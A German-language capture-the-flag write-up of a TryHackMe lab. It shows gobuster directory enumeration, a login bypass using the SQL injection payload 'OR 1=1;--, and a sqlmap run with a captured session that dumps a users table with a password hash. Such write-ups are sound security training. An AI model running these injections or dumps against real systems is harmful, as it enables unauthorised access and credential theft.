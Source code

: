 -> Session ohne http Only erstellt 

## gobuster

```
[+] Url:                     http://10.10.3.133:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.3.133/images/]
/server-status        (Status: 403) [Size: 299]
Progress: 218275 / 218276 (100.00%)
===============================================================
Finished

```

## Walking the App 

-> Startseite beinhaltet Login option

# Exploiting 

THM gibt eine SQLi bei der Maske vor

Versuch mit SQLi 

```
'OR 1=1;-- 
```
in anmelde Feld ->  Erfolg 

Nach der Anmeldung werden wir an /Portal.php weitergegeben. Diese besteht eigentlich nur aus einer Suchzeile die wir aber nutzen können für weitere SQLi 

Hier jetzt mit SQLMap, damit das aber Funktionieren kann müssen wir an SQL Map eine Authentifizierte session geben. Das machen wir indem wir einen Request an die Suche mit Burp Capturen und abspeichern. Diesen habe ich als 'request.txt' gespeichert 

Ausführen SQL Map: 
```
sqlmap -r request.txt --dbms=mysql --dump
```

hier bekommen wir dann auch einige infos

```
[13:50:26] [WARNING] no clear password(s) found                                                                                                                                
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[13:50:26] [INFO] table '`db`.users' dumped to CSV file '/root/.sqlmap/output/10.10.3.133/dump/db/users.csv'
[13:50:26] [INFO] fetching columns for table 'post' in database 'db'
```